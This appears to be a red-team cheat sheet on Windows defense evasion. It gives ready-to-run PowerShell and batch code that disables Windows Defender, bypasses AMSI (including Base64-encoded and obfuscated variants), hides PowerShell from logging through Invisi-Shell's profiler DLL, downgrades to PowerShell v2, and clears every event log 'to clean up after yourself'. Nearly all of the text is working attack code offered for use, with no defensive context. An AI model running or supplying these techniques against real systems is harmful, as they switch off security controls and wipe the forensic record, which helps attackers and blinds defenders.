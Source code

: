 # Defense Evasion

## Bypassing Execution Policy

		powershell -ExecutionPolicy bypass
		powershell -c <cmd>
		powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"


## Windows Defender

### Disable Windows Defender

In PowerShell, the following 2 commands with *Admin privilege*:
 
	Set-MpPreference -DisableRealtimeMonitoring $true -force
	Set-MpPreference -DisableIOAVProtection $true
    New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force

## Path Exclusion

Check that path from which Windows Defender allows execusion.

`Get-MpPreference | Select-Object -ExpandProperty ExclusionPath` 

## Windows Firewall

### Creating rules
TODO

## Bypass AMSI

Article showing multiple methods https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/

AMSI is short for Antimalware Scan Interface.

The goal of AMSI is to prevent the execution of arbitrary code containing malicious content.

### Basic - Forcing an AMSI Initialization Failure

Likely detectable

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

Base64 Encoded

```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```

### Obfuscation

#### Obfuscated Command 1

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

#### Obfuscated Command 2

```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" - f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation .'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" - f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


### Invoke-AMSIBypass

https://raw.githubusercontent.com/samratashok/nishang/master/Bypass/Invoke-AmsiBypass.ps1

`. .\Invoke-AmsiBypass.ps1`

Or copy the code from github and paste it directly into the powershell console

`Invoke-AmsiBypass -Verbose`

## Invisi-Shell

Project https://github.com/OmerYa/Invisi-Shell

Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API.

*Paste in cmd or run as .bat*

### RunWithPathAsAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

### RunWithRegistryNonAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

## Downgrading PowerShell

Sometimes you need to downgrade powershell as new versions come are more secure

`powershell.exe -version 2`

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Version 2`

checking version

`$PSVersionTable`

## Powershell Obfuscators

**Invoke-Obfuscation** is a PowerShell v2.0+ compatible PowerShell command and script obfuscator.

https://github.com/danielbohannon/Invoke-Obfuscation

**Invoke-Stealth** is a Simple & Powerful PowerShell Script Obfuscator.

https://github.com/JoelGMSec/Invoke-Stealth

**Powerob** An on-the-fly Powershell script obfuscator meant for red team engagements. 

 Tutorial https://medium.com/@ammadb/invoke-obfuscation-hiding-payloads-to-avoid-detection-87de291d61d3

https://github.com/cwolff411/powerob


## Scanning Scripts for Detection

### DefenderCheck

https://github.com/matterpreter/DefenderCheck

### AMSITrigger

https://github.com/RythmStick/AMSITrigger

## Clear Event Logs

Clean up after yourself

*Required admin privilege*

```
function clear-all-event-logs ($computerName="localhost")
{
   $logs = Get-EventLog -ComputerName $computername -List | ForEach-Object {$_.Log}
   $logs | ForEach-Object {Clear-EventLog -ComputerName $computername -LogName $_ }
   Get-EventLog -ComputerName $computername -list
}

clear-all-event-logs -ComputerName <hostname>
```

Expected output

```
Max(K) Retain OverflowAction        Entries Log
------ ------ --------------        ------- ---
15,168      0 OverwriteAsNeeded           0 Application
15,168      0 OverwriteAsNeeded           0 DFS Replication
512         7 OverwriteOlder              0 DxStudio
20,480      0 OverwriteAsNeeded           0 Hardware Events
512         7 OverwriteOlder              0 Internet Explorer
20,480      0 OverwriteAsNeeded           0 Key Management Service
16,384      0 OverwriteAsNeeded           0 Microsoft Office Diagnostics
16,384      0 OverwriteAsNeeded           0 Microsoft Office Sessions
30,016      0 OverwriteAsNeeded           1 Security
15,168      0 OverwriteAsNeeded           2 System
15,360      0 OverwriteAsNeeded           0 Windows PowerShell
```


